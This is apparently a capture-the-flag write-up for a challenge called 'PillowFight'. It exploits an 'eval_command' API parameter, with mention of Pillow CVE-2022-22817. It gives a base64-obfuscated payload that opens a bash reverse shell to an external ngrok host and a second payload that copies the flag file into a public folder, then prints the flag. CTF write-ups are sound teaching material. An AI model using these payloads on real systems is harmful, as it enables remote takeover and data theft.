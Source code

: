 # PillowFight

![image](https://github.com/user-attachments/assets/786886d8-46b5-4f30-ae01-a7491f207913)

## My Solution

![image](https://github.com/user-attachments/assets/b7c002e4-f347-4d31-8c47-8e16b37f30ce)

We can see that the app is using Python Pillow 8.4.0 which we know has an exploit where we could execute code because it would be passing it to an eval statement ([CVE-2022-22817](https://github.com/advisories/GHSA-8vj2-vxx3-667w)):  

![image](https://github.com/user-attachments/assets/5db1febc-e0c4-496c-89da-9fe2180c3a0b)

We also have access to the API docs which unlike the functionality on the main page, takes an additional argument of "eval_command"... very handy, we don't even need the vulnerable Pillow I guess:  

![image](https://github.com/user-attachments/assets/c2b6d7f9-c275-4c0c-b652-f95c5f2b4540)

Within that eval_command argument we can pass a payload like this to get a reverse shell:  

```python
__import__('os').system("echo YmFzaCAtaSAgPiYgL2Rldi90Y3AvMC50Y3AuZXUubmdyb2suaW8vMTU4NzUgIDA+JjE=|base64 -d|bash")
```
![image](https://github.com/user-attachments/assets/7e1fd411-f3d0-40fa-acd9-35119ae158b0)

Or, because there is no curl, wget or netcat:  

![image](https://github.com/user-attachments/assets/15573149-b40d-4445-b1b8-09c641e4a9ad)

We could make a static folder and copy the flag there:  

```python
__import__('os').system("mkdir static && cp flag.txt static/")
```

![image](https://github.com/user-attachments/assets/34dfd27a-86a4-41b9-ba25-343009ee5d3f)

Either way, we get the flag.

`flag{b6b62e6c5cdfda3b3a8b87d90fd48d01}`
